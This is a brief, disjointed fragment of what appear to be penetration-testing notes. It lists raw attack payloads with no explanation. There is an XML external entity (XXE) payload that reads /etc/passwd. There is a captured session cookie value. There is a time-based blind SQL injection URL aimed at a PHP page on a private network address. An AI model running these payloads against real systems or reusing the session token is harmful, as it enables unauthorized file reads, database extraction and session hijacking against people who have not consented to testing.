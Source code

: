 
XXE


`<?xml version="1.0"?>   <!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>   <root>&read;</root>` 

connect.sid=s%3A6fMOWXjlDS-aJ0wBC5dvKseZFV6CIArp.vNS%2BHw5Z0zGE5ENYhMh1Bk0inbFSWIk6BqpUhpMAjgg





http://192.168.196.83:80/ebook/bookPerPub.php?pubid=' AND (SELECT 6293 FROM (SELECT(SLEEP(5)))eqTh)-- CJmT